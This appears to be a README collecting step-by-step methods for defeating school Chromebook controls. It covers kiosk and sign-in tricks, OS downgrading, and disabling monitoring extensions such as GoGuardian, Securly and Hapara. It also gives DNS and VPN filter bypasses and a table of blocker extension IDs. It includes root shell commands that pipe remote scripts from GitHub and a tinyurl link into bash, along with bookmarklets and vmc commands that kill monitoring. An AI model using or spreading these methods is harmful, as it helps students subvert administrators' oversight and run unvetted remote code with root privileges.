1. Sign out of your chromebook.

2. Turn off your wifi.

3. Select one of the apps

4. As soon as you click on the app, quickly hit Alt+Shift+S.

5. This should to launch the toolbar; watch for the "No wifi" screen to appear.

6. After you click the settings on the screen brightness settings in the tool bar, nothing should happen (the tool bar will disappear), and that's normal.

7. Press Ctrl+alt+z to open Chrome Vox, then select Resources, then select a link. Now use the exact keybindings to close Chrome Vox.

8. Entering your password and school account, after click "Sign in as existing user." (Same login for school.) If everything went well, you should notice "muti user sign in disabled on this Chromebook" and be logged into your school account in the kiosk app. To bypass simply press the ESC button.

9. You should be able to exit the browser associated with your school account and see a settings option; try turning on wifi first, then close that window. The window unblocked is the last one. You can launch incognito as well.

</details>

<details>
<summary><b>Skiovox for v121</b> Unrestricted browsing</summary>

**Skiovox Method "121"**

1. signout

2. type your password in (dont enter)

3. click esc + shift + alt + r

4. click "cancel" (dont powerwash your chromebook)

5. do the normal skiovox thingy (ex: turning off wifi, going into the kiosk app, and alt + shift + s'ing then finally going to accessibility and question mark)
-- these next steps have to be fast

6. click "add wifi" then spam esc

7. click add other person and spam esc

**Only works if you have your gmail saved into your chromebook like those who have their gmail saved in their chromebook, so like when you sign out, your pfp would be there and you would only need to type your password basically if it shows usernames and photos on the sign-in screen is enabled by admin.**

</details>

<details>
<summary><b>Fakemurk</b> Trick your Chromebook into being in developer mode while being enrolled in your school's profile</summary>

**Fakemurk is a script that is able to run in developer mode to trick your Chromebook into being in developer mode while being enrolled in your school's profile. You can use this to disable any extension, as well as have full access to the chrome web store and google play store. This basically provides a personal Chromebook-like experience, while still being enrolled.**

Go here and follow instructions: <a href="https://docs.google.com/document/d/1Pku_CbEG9SwQtnm0I188RtpdpW8nXQhiNdMp8PN7Mik/edit?pli=1">Fakemurk Doc</a>

</details>

<details>
<summary><b>Pollen</b> Chrome OS User Policy Editor</summary>

**DEV MODE ONLY**

Normal Use
open crosh

```
run shell
run sudo su
run
curl -Ls https://mercuryworkshop.github.io/Pollen/Pollen.sh | bash
```

then press alt+vol_up+x

to make your own modifactions refer to the Pollen Wiki

<a href="https://github.com/MercuryWorkshop/Pollen/wiki#getting-your-policies">Pollen Modifaction Wiki</a>

</details>

<details>
<summary><b>Customized Pollen</b> Chrome OS Policy Editor Customized</summary>

**Customized Pollen for SH1mmered chrombook users.** 

The original pollen by Mercury Workshop: <a href="https://github.com/MercuryWorkshop/Pollen">Pollen GitHub</a> 

It removes all admin installed extensions and thats kinda a problem for everyone so fruvs (op) edited it to make it fit more for SH1mmer users because fruvs (op) already got caught once cause he got snitched on.

So fruvs (op) customized this one to edit lots of features. But to keep all admin installed extensions so no one get's caught. So fruvs (op) edited some

incognito mode: on (everything unblocked, idk if extensions like GoGauridan can see)

ExtensionSettings: all settings removed

HomepageLocation: chrome://newtab

NewTabPageLocation: (left empty)

ManagedBookmarks: removed all school added bookmarks

PinnedLauncherApps: removed all force pinned apps to home bar

RestoreOnStartupURLs: (set it so when you open a new window some schools forces it to also open the schools homepage so                                                          its set back to new tab and no extra tabs)

WebAppInstallForceList: removed all force installed apps


How to run

Note: Devmode NEEDS to be enabled.
Open Crosh

Run
```
shell
```
Run
```
sudo su
```

Run 
```
curl -Ls https://tinyurl.com/repollen | bash
```

Done! It may take a few seconds for the new policy to apply. If it does not apply, press 
```
alt+vol_up+x
```

Errors

If you have Linux enabled you will have to turn it off and turn it back on for it to work

THIS WILL RESET EVERY TIME YOU RESTART THE CHROMEBOOK SO YOU WILL NEED TO RE DO THE PROCESS

</details>

<details>
<summary><b>Fusion 360 exploit</b> Unblocked browser</summary>

**Some schools have Fusion360 already downloaded and if it isn’t, then download it through the play store. This exploit opens an unblocked browser inside of Fusion.** 

What you do is on the sign-up page, click terms of service. Then there is a YT logo at the bottom. Click it to go to the social media page. Next, click Autodesk under the YouTube text. Using this method, you get unblocked YT! For unblocked google, just look up “google.com link is description”. Go to the description and click google.com. Done! 

The admin can remove apps, so it can still be blocked.

</details>

<details>
<summary><b>Downgrading</b> Change versions</summary>  
Downgrading can be used for several exploits, to get to a version that does not have patches for certain exploits, sutch as LTBEEF. This is a built in feature of ChromeOS.

![image](https://user-images.githubusercontent.com/58097612/212685863-3d6b8ce1-7caa-4735-95a8-8eb6787b227c.png)

<i>Requirements</i>
1. A USB thumb drive with at least 4gb of storage, some board have small or bigger images, I recommend 16gb
2. A personal computer with access to downloading extentions
3. A brain
If you do not have these, you **CAN NOT** perform the exploit!

<i>Setup</i>
1. Navigate to `chrome://version` on the chromebook you with to downgrade and check for your board under `Platform` (ex I have a c3100 and it's board is stable-channel octopus).

<img src="https://user-images.githubusercontent.com/88395302/212484378-65e6e6e3-b995-48a1-b229-3265a4993279.png">

2. Navigate to https://chrome100.dev/ , press `ctrl+f` and type in your board.
3. Find and download the chrome version you want to your personal computer.

<i>Instlation</i>
1. Install Chromebook Recovery Utility onto your personal computer. (found at <a href="https://chrome.google.com/webstore/detail/chromebook-recovery-utili/pocpnlppkickgojjlmhdmidojbmbodfm?hl=en">chrome.google.com/webstore/detail/chromebook-recovery-utili/pocpnlppkickgojjlmhdmidojbmbodfm</a>
2. Open the extention, and click on the settings button in to top right hand corner, and click "use local image".
3. Select the recovery image you downloaded from chrome100.
4. Plug in the USB you wish to use, and follow the prompts on the screen.
5. On your chromebook, press esc+reload+power and follow the prompts.
6. On the checking for updates screen, press `ctrl`+`shift`+`e` to skip the "checking for updates" screen.
7. Profit.

</details>

<details>
<summary><b>Killcurly</b> Break extensions</summary>
Kill extension, by signing out.

1. Visit `chrome://settings/signOut`, the O in Out must be capital.
2. Press the big blue button
3. Go to `chrome://restart`
4. Now visit <a href="https://tinyurl.com/AddSession">tinyurl.com/AddSession</a> or <a href="https://accounts.google.com/signin/v2/identifier?hl=en&continue=https%3A%2F%2Fwww.google.com%2F&ec=GAlAmgQ&flowName=GlifWebSignIn&flowEntry=AddSession">this link</a>
5. Add your **SCHOOL** account back. It WILL NOT WORK if you add a home account back. This is just so you can still access Google Drive, Youtube, and any Google service.
6. All extensions should stop working.
7. Note that you have to repeat this every time you restart or sign out.
8. If the link gets patched and you no longer see the blue button, go to `chrome://settings/resetProfileSettings` click current settings, it'll open a blank page, on that page run 
```js
javascript:opener.chrome.send("TurnOffSync");
```
And visit `chrome://restart`.

Workaround for `chrome://settings/signOut` and `javascript:opener.chrome.send("TurnOffSync");` if both patched: Just go to `chrome://settings/syncSetup/advanced` and click 
Customize sync and then flip off the Extensions and Apps or just flip off everything exept for bookmarks

**This was discovered by zoroark and Brandon421-ops**

</details>

<details>
<summary><b>Extention Inactivity hack</b> Inactive Extensions</summary>

1. First do the Esc+Refresh+Power

2. ctrl+d then enter

3. will give you some bullcrap about dev mode is blocked press enter then you will go to a newly restarted chromebook

4. next add wifi-

5. then sign into your account

6. Immediately turn wifi off before extensions load

7. go to `chrome://settings/signOut`

8. click turn off sync and personalization and then turn wifi back on go to whatever site that is extension blocked.

1. Workaround for chrome://settings/signOut if patched: If the link gets patched and you no longer see the blue button, go to `chrome://settings/resetProfileSettings` click current settings, it'll open a blank page, on that page run 
```js
javascript:opener.chrome.send("TurnOffSync");
```
2. Workaround for `chrome://settings/signOut` and `javascript:opener.chrome.send("TurnOffSync");` if both patched: Just go to `chrome://settings/syncSetup/advanced` and click 
Customize sync and then flip off the Extensions and Apps or just flip off everything exept for bookmarks

Note: Before you do any of this do it at home so that way you don have to worry about asking for the school wifi password.

</details>

<details>
<summary><b>New Temporarily Unblock Anything</b> Temporarily Unblock Any Website</summary>

**Might Be Patched on 115 And Above**
  
1. Go to the chrome-extension://Paste the blocker id here/manifest.json page.

2. Go to a new tab page and type in the URL Website you want to unblock don´t go into that website yet just leave it inside the URL Box.

3. Go back to chrome-extension://Paste the blocker id here/manifest.json now create a bookmark called E now click more and In the URL Box you put `chrome://kill` now save that bookmark.

4. Create another bookmark called D click more In the URL Box copy and paste  `javascript:(function () {window.onbeforeunload = function() { return 1; };})()`    Into that URL Box and save that bookmark.

5. Go back to chrome-extension://Paste the blocker id here/manifest.json page and now click bookmark B then quickly go back to the new tab page and click enter now quickly spam bookmark D like 2 or more times now there should be a pop up called do you want to close this page click cancel now boom that website is unblocked until you turn off your chromebook or until you exit out of that website then if that happen´s your gonna have to do all the steps again.

  Easier way for step 2: instead of putting the URL in the new tab box go to chrome-extension://Paste the blocker id here/manifest.json page then click Bookmark E then go to a random website then use the javascript:open('https://YOUR WEBSITE HERE?'+'i'.repeat(1)) Bookmarklet then spam Bookmark D two or more times then a pop up should appear quickly click cancel now boom all done.    Name of Bookmarklet > Unblock Website: javascript:open('https://YOUR WEBSITE HERE?'+'i'.repeat(1))

Note: Save chrome-extension://Paste the blocker id here/manifest.json as a bookmark so you don´t have to come back here and type in the URL thing.

IMPORTANT NOTE: if bookmarklets are blocked your screwed

This workaround was found by <a href="https://github.com/Brandon421-ops">Brandon421-ops</a>

</details>

<details>
<summary><b>Old Temporarily Unblock Anything</b> Temporarily Unblock Any Website</summary>

1. Make a bookmark called tab close blocker now click more on the bottom left corner now in that URL BOX put  `javascript:(function () {window.onbeforeunload = function() { return 1; };})()`

2. Go to a newtab page now go into the URL BOX on the top and put https://YOUR WEBSITE HERE do not click enter yet stay in that URL BOX.

3. Do `search`+`esc` now that should open task manager if `search`+`esc` doesn't work then click the three dots on the top right now scroll down until you find more tools click that and now find task manager click it now boom done with step 3.

4. Find your blocker extension and click it now on the bottom right you should see a button called End process click it now quickly click the URL BOX on the newtab page and click enter now quickly spam the bookmark tab close blocker now a pop up should come up it should have to buttons cancel and leave click cancel and boom done.

  IMPORTANT NOTE: if bookmarklets are blocked your screwed also if task manager or the End process button for task manager is blocked your double screwed.

  </details>

<details>
<summary><b>uBlock Origin</b> Run Code On Pages</summary>

if your school allows the ublock origin chrome extension, then running the edpuzzle script (as well as any other bookmarklet) is possible

1. install ublock origin (<a href="https://chrome.google.com/webstore/detail/ublock-origin/cjpalhdlnbpafiamejdnhcphjbkeiagm">https://chrome.google.com/webstore/detail/ublock-origin/cjpalhdlnbpafiamejdnhcphjbkeiagm</a>)

2. go to the extension's settings

3. under the settings tab, check the "i am an advanced user" box and click on the cog icon

4. inside the advanced settings (`chrome-extension://cjpalhdlnbpafiamejdnhcphjbkeiagm/advanced-settings.html`), scroll down and find `userResourcesLocation` now change `userResourcesLocation` from `unset` to <a href="https://raw.githubusercontent.com/Brandon421-ops/Exploits-And-Hacks/main/ublockExec.js">https://raw.githubusercontent.com/Brandon421-ops/Exploits-And-Hacks/main/ublockExec.js</a>

5. in the My filters tab of the settings (`chrome-extension://cjpalhdlnbpafiamejdnhcphjbkeiagm/dashboard.html#1p-filters.html`), add `*##+js(execute_script.js)` as a filter

6. now you can press `ctrl`+`alt`+`~` to run any js on the current page

7. if you want to run a bookmarklet, just paste in the javascript: url and press ok on the popup

</details>

<details>
<summary><b>Snap&Run</b> Run Code On Pages</summary>

**Executing scripts with the "Snap&Read" extension.**

**Extension <a href="https://chromewebstore.google.com/detail/snapread/mloajfnmjckfjbeeofcdaecbelnblden">Snap&Read</a> must be installed to perform this exploit.**

### Setup
The extension needs to be signed in to an active Snap&Read account before you begin.

**Instructions.**

**Enable the Snap&Read toolbar**
- Open the Snap&Read popup by activating the extension.
- In the extension popup, enable the Snap&Read service by toggling the Snap&Read switch on.

1. Open the Snap&Read popup by activating the extension.

2. In the extension popup, enable the Snap&Read service by toggling the Snap&Read switch on.

3. In the Snap&Read toolbar, click the Show outlines  button.

4. In the Snap&Read outlines panel, click the New outline (+) button at the top left.

5. Enter any text into the outline topic's editable text area.

6. Click the bullet point of the topic.

7. Click the Link to source  option.

8. Click the plus (+) button at the bottom right.

9. Click and switch to the WEBSITE tab.

10. In the Article/Page title input field, enter the name of your chosen bookmarklet.

11. In the URL input field, enter the source of the bookmarklet, starting with `javascript:`.

**Important:** You may need to substitute escape characters for advanced bookmarklets.

12. Click SAVE at the top right.

13. Click and switch to the OUTLINE tab.

14. In the Snap&Read toolbar, click the Hide outlines  button.

### Script Execution

**Instructions**

Follow on a page of your choice.

1. In the Snap&Read toolbar, click the Show outlines  button.

2. In your created outline, click the link separated by parenthasis that contains the bookmarklet.

3. In the Snap&Read toolbar, click the Hide outlines  button.

4. Disable the Snap&Read toolbar

5. Open the Snap&Read popup by activating the extension.

6. In the extension popup, disable the Snap&Read service by toggling the Snap&Read switch off.

**Disable the Snap&Read toolbar**
- Open the Snap&Read popup by activating the extension.
- In the extension popup, disable the Snap&Read service by toggling the Snap&Read switch off.

</details>

<details>
<summary><b>Incognito</b> Bypass Extensions</summary>
IP Servers: Server 1. 52.207.185.90
            Server 2. 158.111.114.159

Step 1. Go to your settings

Step 2. Click on the wifi your using rn then click it again.

Step 3.  Scroll down until you see network once you see the option click it.

Step 4. Scroll down until you find custom name servers now once you find the option click it.

Step 5. Paste in the IP Server.

Step 6. Now there should be a notification saying open new tab click that and now you should be in a small window some instructions and there are 2 buttons click the yellow with black letters button and boom Incognito Mode is Unblocked.
One of the buttons are just a link in blue don´t click that one is just for test´s
Step 7. Go back to the network settings and change back the custom name servers to automatic name servers.
Note: If your connection is slow if your school has more than one wifi then connect to the other wifi that might have a better connection.

Btw if you close out of the Incognito Tab your gonna have to do all the steps again.

Cool Advanced Facts About Incognito Mode:
1. Bypass Extensions Aka Unblock All Websites.
2. Your History Is Hidden From Your School

</details>

<details>
<summary><b>Incognito On The Sign-In Screen</b> Bypass Extensions/Unblocked Google Webview</summary>
Might work but idk if it will

IP Servers: Server 1. 52.207.185.90
            Server 2. 158.111.114.159

Step 1. On the sign-in screen go to your wifi settings and click on the wifi your using rn

Step 2. Then Scroll down until you see network once you see the option click it.

Step 3. Scroll down until you find custom name servers now once you find the option click it.

Step 4. Paste in the IP Server.

Step 5. Now on the network settings click the sign in and now you should be in a small window some instructions and there are 2 buttons click the blue link and boom unblocked webview of google.

Cool Advanced Facts About Incognito Mode:
1. Bypass Extensions Aka Unblock All Websites.
2. Your History Is Hidden From Your School

</details>

<details>
<summary><b>Chrome-Signin Webview</b> Bypass Extensions</summary>
Unblocked Google
  
Step 1. Go to `chrome://chrome-signin`

Step 2. Click ok on the bottom right corner

Step 3. In the Email text box put `google@d11.org`

Step 4. Click `signin options`

Step 5. Now click signin with github

Step 6. Click the github logo

Step 7. In the search box on the top Right type google and then click see more topics then you will see all the google links click `www.google.com` now boom unblocked Google.

</details>

<details>
<summary><b>Chrome-Signin Webview 2</b> Bypass Extensions</summary>
Unblocked Google
  
Step 1. Go to `chrome://chrome-signin`

Step 2. Click ok on the bottom right corner

Step 3. In the Email text box put `google@d11.org`

Step 4. Click `signin options`

Step 5. Now click signin with github

Step 6 Click forgot password instead of github logo

Step 7. Click docs

Step 8. Scroll down

Step 9. Click ask the GitHub community

Step 10. Search google and click the hyperlink on the right

Credit to snail for finding this workaround.

</details>

<details>
<summary><b>Microsoft Labs</b> Bypass Extensions</summary>

YOU NEED A MICROSOFT ACCOUNT FOR THIS

Go to: <a href="https://learn.microsoft.com/en-us/training/modules/implement-common-integration-features-finance-ops/10-exercise-1">https://learn.microsoft.com/en-us/training/modules/implement-common-integration-features-finance-ops/10-exercise-1</a>

Next, sign into your Microsoft account, then if it doesn't already, go back to that link

Then, hit Launch VM Mode See images attached if needed

After it loads it's gonna ask for a password, the password is pass@word1 See images attached if needed

Then boom, you are done.

It's still kinda limited, like you can't go on Spotify sound doesn't output anyway and it, blocks random sites, but discord 100% works

Thanks to a user in TN, I was informed the best vpn to get around the FortiNet thing "Greenhub" on the Edge add-ons 

</details>

<details>
<summary><b>Quick View</b> Bypass Extensions</summary>

**QuickView is a universal webview exploit in Chrome OS that utilizes the QuickOffice component extension. This exploit lets you create login windows with arbitrary URLs, thus allowing you to load pages without any extensions.**

Go to <a href="https://quickview-exploit.pages.dev/">this link</a> and follow instructions

WARNING: If `javascript://` is blocked then you can't preform this exploit

Credit to <a href="https://ading.dev/">ading2210</a> and <a href="https://buymeacoffee.com/bypassi">Bypassi#7037</a> for finding this exploit

</details>

<details>
<summary><b>Buypass</b> Temporarily Unblock Websites</summary>

Exploit Made By <a href="https://buymeacoffee.com/bypassi">Bypassi#7037</a>

Here's the original github repo of the buypass exploit: <a href="https://github.com/bypassiwastaken/buypass">Bypassi#7037's Buypass Exploit Github Repo</a>

Here's the original website of the buypass exploit: <a href="https://buypass.bypassi.com/">Bypassi#7037's Buypass Exploit Website</a>

Here's the forked github repo of the buypass exploit: <a href="https://github.com/Brandon421-ops/buypass">Brandon421-ops's Forked Buypass Exploit Github Repo</a>

Here's 3 alternative websites of the buypass exploit:

1. <a href="https://buypass.brandonprather.repl.co/">Buypass Exploit Repl Website</a>

2. <a href="https://buypass.glitch.me/">Buypass Exploit Glitch Website</a>

3. <a href="https://buypass.netlify.app/">Buypass Exploit netlify.app Website</a>

This Exploit Is Kinda Similar To The Quick View Exploit

</details>

<details>
<summary><b>[Webview] Testnav Exploit</b> Unblocked Webview for either google or a web browser</summary>

Step 1. Download Testnav off the webstore/playstore/or run as a kiosk app as some schools have it added as one

Step 2. Open it

Step 3. After opened it will probably bring you to the page were you select your consumer, click aimsweb/aimsweb plus

Step 4. After you click goto select your district in the bottom right corner of the page

Step 5. Select “STRATFORD FRIENDS SCHOOL” 

Step 6. Click the arrow to the right of the selection box

Step 7. Click sign in options
a) Click sign in with github

Step  8. Click the github logo at the top of the screen

Step 9. Click the three bars in the top right corner, then goto the search box and type in googleyay

Step 11. Scroll down until you see DerDer56/googleyay

Step 12. There's several links to choose from, but if there's a link you want that's not there click the Bypassi Redirect Tool

(Optional) Step 13. Type in the link you want to go on and click "Go To the URL"

Step 14. Click it and you have webview (unblocked browser)

</details>

<details>
<summary><b>OP Crosh</b> Disable extensions with crosh and vmc</summary>

### Requirements
- A managed Chromebook with crosh enabled
- The `VmManagementCliAllowed` policy either unset or set to true
- Some form of removable media for noting down extension IDs (only useful for the second method and not required, but this prevents you from mistyping an extension ID).
- A willingness to powerwash

### There are two variations to this method:
1. Disabling all extensions. This is probably the most reliable, but you'd be left without useful extensions such as any adblockers. You also aren't able to install anything from the Chrome Web Store either.

2. Disabling specific extensions. This is less reliable, since this only becomes possible once Chrome OS has installed at least one extension already, which could be one that you're trying to disable.

### Testing if the method is possible:
1. Open crosh by hitting `ctrl`+`alt`+`t`
. If a command line pops up then you have crosh enabled and you can move on to step 2.

2. Test the `VmManagementCliAllowed` policy by running the `vmc` command. If a list of subcommands is shown, then you're good to go.

### Instructions:
1. Back up any data you want before the powerwash.

2. If you're doing the second variation, note down any extension IDs. You may also want to do this if you intend on disabling all extensions, since sometimes that will fail and require you to specify each extension you want to disable.

3. Powerwash by attempting to enable developer mode. Instructions are available <a href="https://chromium.googlesource.com/chromiumos/docs/+/master/developer_mode.md#dev-mode">here</a>.

4. Log into your Google account as normal, but immediately disable your internet right after you sign in.

5. You should be logged into your account, but without any extensions installed due to being offline.

6. Here the instructions are split, so follow the one for the method that you want to do.
 
### Disable All Extensions:
1. Open up crosh by hitting `ctrl`+`alt`+`t`

2. Type in `vmc create-extra-disk --size 1 /home/chronos/user/Extensions`

3. Run that command.

4. If it fails with a "file exists" error, then you must individually specify each extension that you want to remove. Move to step 5 of the next section to do that.

5. Re-enable your internet, and no extensions should be installed.
 

### Disable Specific Extensions:
1. Navigate to `chrome://extensions`.

2. Enable your internet, and immediately disable it when an extension is installed.

3. Assuming the installed extension was not one that you were trying to disable, move on to step 4. If it was, you'd have to powerwash to try again.

4. Open up crosh by hitting `ctrl`+`alt`+`t`.

5. For each extension you want to disable, run this command: `vmc create-extra-disk --size 1 /home/chronos/user/Extensions/{extension_id}`

6. Each command should look something like this: `vmc create-extra-disk --size 1 /home/chronos/user/Extensions/cjpalhdlnbpafiamejdnhcphjbkeiagm`

7. Re-enable your internet, and if you typed/pasted in the extension IDs correctly, those specific extensions should be blocked from ever being installed.

Credit to <a href="https://ading.dev/">ading2210</a> for finding this exploit

</details>

<details>
<summary><b>GoGuardian Fever</b> Disable GoGuardian</summary>

IF YOU DO NOT HAVE GOGUARDIAN THIS EXPLOIT WILL NOT WORK FOR YOU
Getting Started

1. Obviously (but still needs to be said due to skids in Titanium Network), make sure GoGuardian is actually installed

2. Visit any of the links and copy the text in it and paste it in a newtab <a href="https://github.com/Brandon421-ops/Exploits-And-Hacks/blob/main/GoGuardian%20Fever.txt">Link 1</a> <a href="https://raw.githubusercontent.com/Brandon421-ops/Exploits-And-Hacks/main/GoGuardian%20Fever.txt">Link 2</a> <a href="https://pastebin.com/raw/ytcMuigM">Link 3</a>

3. On that tab there will be a simple white screen with nothing on it, reload the page

4. If the GET request fails and you are left on an error screen (don't panic, this is intended, continue)

5. Visit `chrome://restart` to clear cached sites from GoGuardian

Enjoy a free browsing context

To undo

1. On <a href="https://goguardian.com">goguardian.com</a>, press the lock icon at the top left of the screen

2. Press cookies and site data

3. Click manage cookies

4. Then click clear each site's cookies you see there

</details>

<details>
<summary><b>Disable GoGuardian With The Chat</b> Disable GoGuardian [Unreliable]</summary>

1. wait until your teacher opens the chat window thingy

2. spam the x button until it stops re-opening

3. open the url `chrome-extension://haldlgldplgnggkjaafhelgiaglafanh/manifest.json`

4. open `chrome://extensions/?id=haldlgldplgnggkjaafhelgiaglafanh`, and toggle the “allow access to file:// urls” switch

goguardian is now disabled and you can close both tabs 

made by carteeeee

</details>

<details>
<summary><b>GoGuardian TabCrash</b> Disables GoGuardian Actions w/TAB LIMIT</summary>

**Teacher's can still see your screen, but they can't block or close any of your tabs.**

**YOUR TEACHER NEEDS TO HAVE SET A TAB LIMIT. TRY OPENING TONS OF TABS TO CONVINCE THEM TO ENABLE TAB LIMITS**.

1. create a bookmark named anything: `javascript: window.onbeforeunload = ()=>{return false;}`

2. Hold down CTRL and then SPAM CLICK the bookmark until you're well above the tab limit, opening a bunch of `about:blank` pages.

3. It might ask if you want to leave this page, this is goguardian trying to close it. Say No, and click `Prevent from creating additional dialogues`.

4. Enjoy your unblocked stay!

To undo: close all of your `about:blank` tabs

#### Discovered by @py660

</details>

<details>
<summary><b>GoGuardian TabCrash 2</b> Disables GoGuardian Actions w/TAB LIMIT</summary>

**If your teacher has turned on the tab limit you can bypass this with an extension. If the extension is blocked, sorry.**

Step 1. Download the extension <a href="https://chromewebstore.google.com/detail/read-aloud-a-text-to-spee/hdhinadidafjejdhmfkjgnolgimiaplp">Read Aloud: A Text to Speech Voice Reader</a>

Step 2. Use one of your tabs to go to IReady or Scratch. You just need a site that would display the error when you close the tab "Are you sure you want to close this site? Unsaved changes could be lost." 

Step 3. When you have the site with unsaved changes, click the extension until you see the error. Click cancel on the error.

Step 4. The extension should have opened some tabs which say: "Read Aloud uses this tab for audio playback."

Step 5. If you saw the error and clicked cancel, you should have bypassed the tab limit.

</details>

<details>
<summary><b>Insecurly</b> Toggle the Securly extension</summary>

**ONLY FOR SECURLY USERS**

Go to <a href="https://www.disablesecurly.com/">this link</a> and follow instructions

If blocked then go cry in a corner

Credit to <a href="https://www.buymeacoffee.com/bypassi">Bypassi#7037</a> for finding/Making this exploit

</details>

<details>
<summary><b>A Bypass For Securly and a few of other blocker extensions</b> Manipulate any website so securly or any other blocker extension can't block it</summary>

At any URL put #translate.google.com at the end of it or put ?suicidepreventionlifeline.org at the end of it and bam you just unblocked a website by Manipulating the URL

This only works for securly and some other blocker extensions

</details>

<details>
<summary><b>Glitch through securly</b> Unblock any website blocked from securly</summary>

**This only works if your admin/school uses securly. Not sure if this can be blocked or not. So im going to do this step by step**

1. Go to the blocked site you want to access

2. Once it shows the blocked page copy the url it shows

3. Go to the url bar and delete everything between https:// and the first "?"

4. Paste the website url

5. press enter and voila it should be unblocked

6. Have fun

confirmed working with xbox cloud gaming and now.gg

If it doesn't work then go cry.

</details>

<details>  
<summary><b>SOT Exploit</b> Unblock any website or Open any website in a about:blank page</summary>

1. Download this extension <a href="https://chromewebstore.google.com/detail/onetab/chphlpgkkbolifaimnlloiipkdnihall">One Tab</a>

2. Click the import button in the settings tab.

3. Copy-paste the URL you wish to visit about 100 times, and then click import.

4. Spam click the top link, then either spam escape on one of them or wait for one to load on a about:blank page.
  
Credit to <a href="https://github.com/Coding4Hours">Coding4Hours</a>

</details>

<details>
<summary><b>Chaos</b> A full bypass method for Hapara Highlights and Hapara Filter</summary>

**Devtools must not be blocked by policy to perform this exploit.**

Go to <a href="https://xlak.github.io/chaos/">this link</a> and follow instructions

If blocked then go cry in a corner

</details>

<details>  
<summary><b>Filter session bypass</b> Bypass hapara filter session</summary>

Bookmark this link: <a href="filtersessionbypass.txt">filtersessionbypass.txt</a>

During a filter session, right click the link, and press "Open in a new tab"
Then insert the URL for any website you want to go to.  Make sure to include https://<br>
If it says "website name refused to connect", try using a web proxy.<br>
Also this dosn't bypass blocker extentions so use an unblocked link, or another exploit.

</details>

<details>  
<summary><b>Hapara Lock Screen Bypass</b> Bypass Hapara Lock Screen</summary>

1. Make bookmarks of pages you want to visit beforehand.

2. Once your screen is paused, spam unfullscreen. Each time you do, you should see your tabs and bookmark bar come back. Attempt to right-click on the bookmarks bar until a menu shows up.

3. In the menu, select “Add folder”. Name it whatever you like. Hit Done. With luck, your tabs and bookmarks should stay at the top of your screen. If not, try again.

4. Once the tab and bookmarks bar stays, spam-click one of the bookmarks you made. This lags Hapara into displaying your page instead of the pause page. Turn off your wifi as soon as the page fully loads. This stops data flow between your amd the teacher’s computer, so that they can’t re-pause your screen.

</details>

<details>
<summary><b>Network Bypassing Via DNS</b> A bypass for any network filters</summary>

**A network filter is something that blocks website on the actual network instead of the operating system. Thus you can't disable with exploits like LTBEEF or LTMEAT.**

IP Server 1: 8.8.8.8 in all boxes

IP Server 2: 1.1.1.1 in the first box and 1.0.0.1 in the second box the third and fourth box stay 0.0.0.0

Step 1. Go to your settings

Step 2. Click on the wifi your using rn then click it again.

Step 3.  Scroll down until you see network once you see the option click it.

Step 4. Scroll down until you find custom name servers now once you find the option click it.

Step 5. Paste in one of the IP Server's.

Note: If IP Server 1 doesn't work then use IP Server 2 if IP Server 2 doesn't work then try using IP Server 1 if they both don't work your screwed

</details>

<details>  
<summary><b>Network Bypassing Via VPN</b> A bypass for any network filters</summary>

**A network filter is something that blocks website on the actual network instead of the operating system. Thus you can't disable with exploits like LTBEEF or LTMEAT.**

Go to <a href="https://drive.google.com/file/d/1MGVFf8d9pww0M2bO9ogxQX1LyR1y6zc_/view">this link</a> once you have downloaded the ONC file. Goto chrome://network and press "Import ONC File". You will have know if it worked if it says: "Network imported: 1". Then click on the time, or goto settings. Find VPN, click on it and click on the "Haven VPN" it will say "Connected" and now you are free.


If chrome://network is blocked, start bawling your eyes out and beat up your IT manager. 

</details>

<details>
<summary><b>List of tools</b> </summary>

<details>  
<summary><b>Extension ID's</b> </summary>

|Extension Name|Extension ID|
|--------------|------------|
|GoGuardian|`haldlgldplgnggkjaafhelgiaglafanh`|
|Mobile Guardian (installed)|`fgmafhdohjkdhfaacgbgclmfgkgokgmb`|
|<a href="https://chrome.google.com/webstore/detail/mobile-guardian/nglbmaiijljohnphofifiodoommladkj">Mobile Guardian (setup)</a>|`nglbmaiijljohnphofifiodoommladkj`|
|<a href="https://chrome.google.com/webstore/detail/securly-for-chromebooks/iheobagjkfklnlikgihanlhcddjoihkg">Securly (webstore)</a>|`iheobagjkfklnlikgihanlhcddjoihkg`|
|Securly|`joflmkccibkooplaeoinecjbmdebglab`|
|Securly (old)|`iheobagjkfklnlikgihanlhcddjoihkg`|
|Securly Classroom|`jfbecfmiegcjddenjhlbhlikcbfmnafd`|
|<a href="https://chrome.google.com/webstore/detail/blocksi-enterprise-editio/ghlpmldmjjhmdgmneoaibbegkjjbonbk">Blocksi</a>|`pgmjaihnmedpcdkjcgigocogcbffgkbn`|
|<a href="https://chrome.google.com/webstore/detail/iboss-cloud-enterprise/kmffehbidlalibfeklaefnckpidbodff">iBoss</a>|`kmffehbidlalibfeklaefnckpidbodff`|
|<a href="https://chrome.google.com/webstore/detail/forticlient-chromebook-we/igbgpehnbmhgdgjbhkkpedommgmfbeao">Fortiguard</a>|`igbgpehnbmhgdgjbhkkpedommgmfbeao`|
|<a href="https://chrome.google.com/webstore/detail/cisco-umbrella-chromebook/jcdhmojfecjfmbdpchihbeilohgnbdci">Cisco Umbrella</a>|`jcdhmojfecjfmbdpchihbeilohgnbdci`|
|NetRef|`khfdeghnhlpdfeenmdofgcbilkngngcp`|
|<a href="https://chrome.google.com/webstore/detail/ckauthenticator/jdogphakondfdmcanpapfahkdomaicfa">ContentKeeper</a>|`jdogphakondfdmcanpapfahkdomaicfa`|
|CK-Authenticator G3|`odoanpnonilogofggaohhkdkdgbhdljp`|
|<a href="https://chrome.google.com/webstore/detail/hapara-highlights-extensi/kbohafcopfpigkjdimdcdgenlhkmhbnc">Hapara</a>|`kbohafcopfpigkjdimdcdgenlhkmhbnc`|
|Smoothwall|`jbldkhfglmgeihlcaeliadhipokhocnm`|
|Linewize|`ddfbkhpmcdbciejenfcolaaiebnjcbfc`|
|<a href="https://chrome.google.com/webstore/detail/lanschool-air-chrome-exte/baleiojnjpgeojohhhfbichcodgljmnj">LANSchool</a>|`baleiojnjpgeojohhhfbichcodgljmnj`|
|<a href="https://chrome.google.com/webstore/detail/lanschool-web-helper/honjcnefekfnompampcpmcdadibmjhlk">LanSchool Web Helper</a>|`honjcnefekfnompampcpmcdadibmjhlk`|
|Lightspeed Filter Agent|`adkcpkpghahmbopkjchobieckeoaoeem`|
|Lightspeed Device Insider Agent|`njdniclgegijdcdliklgieicanpmcngj`|
|<a href="https://chrome.google.com/webstore/detail/interclass-filtering-serv/jbddgjglgkkneonnineaohdhabjbgopi">InterCLASS Filtering Service</a>|`jbddgjglgkkneonnineaohdhabjbgopi`|
